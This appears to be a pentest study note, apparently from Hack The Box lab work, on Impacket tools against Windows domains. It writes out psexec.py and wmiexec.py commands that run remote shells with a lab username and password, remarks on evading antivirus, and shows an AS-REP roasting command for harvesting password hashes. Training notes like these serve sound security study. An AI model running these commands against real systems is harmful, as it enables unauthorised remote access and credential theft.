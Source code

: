 ```yaml
---
description: >-
  Impacket is an expansive toolkit that provides us with many different ways to
  enumerate and interact with Windows protocols.
---
```


# Impacket Toolkit



## P**sexec.py**

One of the most useful tools in Impacket is psexec.py. The tool is a clone of Sysinternals psexec executable.&#x20;

\
**Using psexec.py**

To connect to a host with psexec.py, we need credentials for a user with local administrator privileges.

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125  
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/Screenshot 2023-09-20 153517.png" alt=""><figcaption></figcaption></figure>



## Wmiexec.py

Utilizes a semi-interactive shell where commands are executed through  [Windows Management Instrumentation](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page). It does NOT drop any files or executables on the target host and generates fewer logs than other modules. _<mark style="color:red;">**IMPORTANT:**</mark>_ This is a more stealthy approach to execution on hosts than other tools, but would still likely be caught by most modern anti-virus and EDR systems.&#x20;

```shell-session
attacker@kali$ wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5  
```



<figure><img src="../../../.gitbook/assets/Screenshot 2023-09-20 160545.png" alt=""><figcaption></figcaption></figure>



## GetUserNPs.py

We can check for AS-REP Roasting with or without credentials depending on the configuration of the Domain Controller.

```bash
attacker@kali$ impacket-GetNPUsers -dc-ip htb.local -request 'htb.local/' 
```

<figure><img src="../../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

